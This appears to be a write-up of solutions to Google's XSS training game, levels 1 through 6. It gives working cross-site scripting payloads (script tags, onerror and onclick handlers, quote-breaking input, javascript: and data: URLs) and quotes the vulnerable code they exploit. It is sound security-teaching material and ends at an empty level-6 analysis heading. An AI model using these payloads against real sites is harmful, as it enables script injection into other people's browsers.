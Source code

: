 # Solutions to Google XSS Challenges

## Level 1

### How to trigger the vulnerability?
```html
<script>alert()</script>
```

### Where is the vulnerable code?
In [level1.py](source-code/level-1.py), the input strings are directly being rendered without any escaping or validation.

```python
message = "Sorry, no results were found for <b>" + query + "</b>."

self.render_string(page_header + message + page_footer)

def render_string(self, s):
    self.response.out.write(s)
```

## Level 2

### How to inject Javascript code?
Since simply using `<script>...</script>` will not work in this case, we need to find other ways to inject Javascript code.

Some options:

```html
<a href="#" onclick="alert()">Click Me To Exploit!</a>
```

```html
<img src="hahaa" onerror="alert()">
```

### Analysis

Any content of post is displayed without escaping. Therefore, we can use "onclick" or "onerror" to execut a script.

## Level 3

### How to exploit?
In this level I've come up with two ways to exploit the xss vulnerabilities.

First, modify the URL such that the image will not be displayed and thus trigger the `onerror` event which we injected.
```url
https://xss-game.appspot.com/level3/frame#4' onerror="alert()" alt='exploited_image
```
An alternative solution will be the web page as normal render the correct image (for example, 3.jpg), but this time we add the `onClick` event into the image. So the injected JS code will be triggered when the user click that correctly displayed image.
```url
https://xss-game.appspot.com/level3/frame#1.jpg' onClick="alert()" alt='will_not_display
```


### Vulnerable Code

The vulnerable code appears at Line17 of [index.html](/source_code/level-3/index.html) file. This allows attacker to inject Javascript code using `onerror` event in the `img` tag.
```html
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

After injecting the above url, the `img` tag of the html file will be rendered as
```html
<img src='/static/level3/cloud/4' onerror="alert()" alt='exploited_image.jpg' />
```
---
#### *NOTICE*:
The image is stored inside the database as `1.jpg`. So if you modify the image tag as
```html
<img src='/static/level3/cloud/1.jpg' onerror="alert()" alt='will_not_display.jpg' />
```
will NOT trigger the `onerror` event.

Just delete the `.jpg` extension will make the image un-displayable and thus trigger the `onerror` event :)

## Level 4

### How to exploit?
Input the following weird string to become the timer!
```
3');alert('
```

### Analysis
In this case, the vulnerable code locates at line 21 of the  [timer.html](/source_code/level-3/timer.html) file.

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

With proper numerical input, the `onload` event execute the function `startTimer('3');` without any problem. In this case, `3` is the type of string, and will eventually be parsed as integer (`parseInt`) in the startTimer function.

Thus, we can utilize the `onload` event to add additional javascript code! If our input is OUR_INPUT_STRING, the `startTimer` function will look like this:
```js
onload="startTimer('OUR_INPUT_STRING')"
```

If we intentionally set our input to be `3');`, some magical things then happen! We have manually escaped the startTimer function! In this case, the onload event looks like this:
```js
// I intentionally make a space after the `;` of startTimer function. Just to make things clearer :)
onload="startTimer('3'); ')"
```
The remaining `');'` is "auto-filled" by the program, so the remaining thing we need to do is to add `alert('` after our above-mentioned tricky string. Now we have successfully injected the javascript code into the web page!

The **injected** `onload` event will become like this:
```js
onload="startTimer('3');alert('')"
```

## Level 5

### How to exploit?
```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('')
```

In the `signup` page, change the value of the `next` parameter in the URL. Use `javascipt:alert()` instead of "confirm"!

So the URL for our exploitation will become
```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()
```

*NOTICE*: After you forge the URL in this case, you need to **click the GO button first**, then entering your mail and clicking the Next button. Only in this case will make that forged URL valid. After that, enjoy the result javascript alert popping up :)

### Analysis

After changing the content of "next" parameter, behavior of the next button will be modified, which is defined in line 15 of signup.html:
```html
<a href="{{ next }}">Next >></a>
```

Javascript code inserted in the parameter will be executed after clicking the next button.

## Level 6

### Exploit Code

```html
https://xss-game.appspot.com/level6/frame#//www.google.com/jsapi?callback=alert
```

Another way to work...
```html
https://xss-game.appspot.com/level6/frame#data:text/javascript,alert('')
```

### Analysis

